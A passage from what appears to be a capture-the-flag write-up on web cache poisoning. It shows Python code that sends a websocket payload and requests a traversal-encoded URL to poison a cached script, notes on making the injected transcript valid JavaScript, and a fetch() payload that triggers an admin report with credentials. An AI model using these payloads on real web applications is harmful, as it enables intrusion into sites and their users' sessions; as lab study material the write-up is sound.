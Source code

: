 ```python
ws.send(payload)

time.sleep(1)

# Posion the cache
url = BASE_URL + "/static/stats.js/..%2f..%2ftranscript%23%2f..%2fcache%2fstats.js"
session.get(url)

time.sleep(1)
```

Perfect! We triggered the `print()` function. There are a few things to note here:
1. Whenever we send data to the server, we need to wait for a while for the server to process the request. 
2. We need to wait for 16s to make sure the cache is able to be poisoned (this is because the server is using cache for 15s).
3. We need to make sure `/transcript` is a valid javascript code. This is done by: 
  - Using `=[0]` to get rid of the  `[username] comment` part, make it valid syntax.
  - Using `/*` and `*/` to comment out the part of the comments made during our wait time. 


![print](/assets/source/umassctf-2025/bonk4cash/print.png)

Next, I try:
```python
payload = """=[0];
fetch('http://nginx:8000/report/admin',{method:'POST',credentials:'include'})
/*"""
```
